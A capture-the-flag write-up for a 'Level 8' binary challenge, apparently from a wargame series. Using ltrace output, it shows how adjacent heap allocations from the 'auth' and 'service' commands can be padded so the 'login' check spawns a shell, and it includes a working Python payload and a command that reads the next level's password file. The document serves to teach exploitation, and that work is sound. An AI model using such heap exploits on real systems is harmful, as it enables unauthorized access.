 # Level 8

## Initial Context

- One file: `level8`

## Solving the Challenge

The executable is a REPL, meaning it waits for an input line and do thing accordingly.

By rewriting the code in C, we can see that 4 commands are possible:
- auth
- reset
- service
- login

If run using `ltrace`, we can see that the `auth` command only allocate `4 bytes`, followed another allocation if we do the `service` command.

```bash
$ ltrace ./level8
...
printf("%p, %p \n", (nil), (nil))           = 14
fgets("auth abc\n", 128, 0xb7fd1ac0)        = 0xbffff6e0
malloc(4)                                   = 0x0804a008 # first
strcpy(0x0804a008, "abc\n")                 = 0x0804a008
printf("%p, %p \n", 0x804a008, (nil))       = 18
fgets("service abc\n", 128, 0xb7fd1ac0)     = 0xbffff6e0
strdup("service abc\n")                     = 0x0804a018 # second
printf("%p, %p \n", 0x804a008, 0x804a0180)  = 22
...
```

These two allocation are only `16 bytes` off (or `0x10`).

The `login` command check the memory allocated by `auth + 32 bytes`. But the `auth` command has a restriction of `31` bytes.
We have to find another way.

Since `service`'s allocation is only `16 bytes` after, we can fill it with another `16 bytes` to be at `auth + 32 bytes`.

The program will give us a shell if the value is anything except zero.

So here is the payload:

```python
# first command, allocate 4 bytes
print "auth ";

# second command, allocate 16 bytes, after the previous allocation plus some padding
print "service" + "A" * 16;

# third command, do the check
print "login"
```

Let's save it in a file and send it to the vulnerable program:

```bash
$ python -c 'print "auth "; print "service" + "A" * 16; print "login"' > /tmp/exploit8
$ cat /tmp/exploit8 - | ./level8
whoami
level9
cat /home/user/level9/.pass
<flag>
```

